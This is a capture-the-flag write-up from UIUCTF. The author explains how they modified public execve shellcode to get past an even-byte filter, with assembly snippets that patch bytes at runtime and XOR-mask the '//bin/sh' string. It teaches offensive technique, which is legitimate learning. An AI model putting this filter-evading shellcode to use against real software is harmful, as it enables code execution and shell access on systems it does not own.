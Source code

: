 I started with some [standard shellcode from shell-storm.org](https://shell-storm.org/shellcode/files/shellcode-603.php), and started modifying it.

It took a lot of iteration, but this is what I transformed that into
1. RCX contained the location to the shellcode
There are various ways to escape an even byte. XOR it with 1 (i.e. increment), decrement it or increment it (and do the opposite in the code of course). 

```asm
dec dword [ rcx + 0xb ] ; unless overflow dword fine  
dec dword [ rcx + 0xd ] ; unless overflow dword fine  
db      0x49, 0x31, 0xD3 ; 4831D2 xor     rdx, rdx  
```
for example, xor rdx, rdx leads to 4831D2h, but 48h and D2h would be blocked by the program filter. So, I store 4931D3 in that location and decrement two of the bytes.

To store the string //bin/sh, I generate an XOR mask, however, just to see the other technique in action. The following section generates the mask using `or` and `shl`.

```asm
xor r9,r9;
or r9, 1;
shl r9, 7
shl r9, 1
or r9, 1;
shl r9,23;
shl r9,1;
or r9, 1;
shl r9,15;
shl r9,1;
or r9, 1;
shl r9,7;
shl r9,1;
; effectively: xor rbx, r9;
```

After that, I used the same `dec [ rcx + <offset>]` technique to escape any other instructions when needed, while following the overall template of the shellcode from shell-storm.org. 

You can find my full shellcode (comments and all) [here](./shellcode.asm.txt).

---

Overall, though I had limited time to work on it, UIUCTF was a great opportunity with a lot of challenging problems! Thanks to the team at UIUC that made it possible!


